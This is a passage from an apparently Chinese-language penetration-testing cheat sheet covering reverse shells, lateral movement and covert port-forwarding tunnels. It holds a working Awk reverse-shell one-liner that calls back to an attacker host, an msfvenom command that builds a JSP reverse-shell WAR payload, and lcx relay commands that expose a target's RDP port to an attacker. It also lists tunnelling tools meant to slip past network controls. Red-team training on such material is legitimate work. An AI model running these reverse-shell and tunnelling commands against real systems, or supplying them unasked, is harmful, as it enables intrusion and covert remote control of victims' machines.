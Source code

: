 **Awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**War**
```java
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file
```

---

# 横向扩展

## PTH/PTK/PTT

- [PTH](../Windows渗透.md#PTH)
- [PTT](../Windows渗透.md#PTT)

---

## 隐匿攻击
### 隐蔽隧道

**端口转发**
- **文章**
    - [渗透基础——端口转发与代理](https://www.4hou.com/posts/PQMA)

- **工具**
    - [cw1997/NATBypass](https://github.com/cw1997/NATBypass) - 一款 lcx 在 golang 下的实现
    - [knownsec/rtcp](https://github.com/knownsec/rtcp) - 利用 Python 的 Socket 端口转发，用于远程维护
    - [k8gege/PortTran](https://github.com/k8gege/PortTran) - .NET 端口转发工具,支持任意权限
    - [sensepost/reGeorg](https://github.com/sensepost/reGeorg) - 通过走 web 流量进行端口转发
    - [EarthWorm](http://rootkiter.com/EarthWorm/)
        - [idlefire/ew: 内网穿透(跨平台)](https://github.com/idlefire/ew)
        - [「SOCKS5代理」ew 正向、反向、多级级联](https://ai-sewell.me/2018/SOCKS5%E4%BB%A3%E7%90%86-ew-%E6%AD%A3%E5%90%91-%E5%8F%8D%E5%90%91-%E5%A4%9A%E7%BA%A7%E7%BA%A7%E8%81%94/)
        - [利用 ew 轻松穿透目标多级内网](https://klionsec.github.io/2017/08/05/ew-tunnel/)

    - **lcx**
        ```bash
        lcx -slave 111.222.333.444 4567 127.0.0.1 3389  # On the targets
        lcx -listen 4567 33891                          # Attacker
        ```

    - **netcat**
        - **tcp 端口连接**
            ```bash
            smtp: nc -nv 192.168.30.35 25 help
            pop3: nc -nv 192.168.30.35 110 user xxx pass xxx
            imap: nc -nv 192.168.30.35 143
            ```
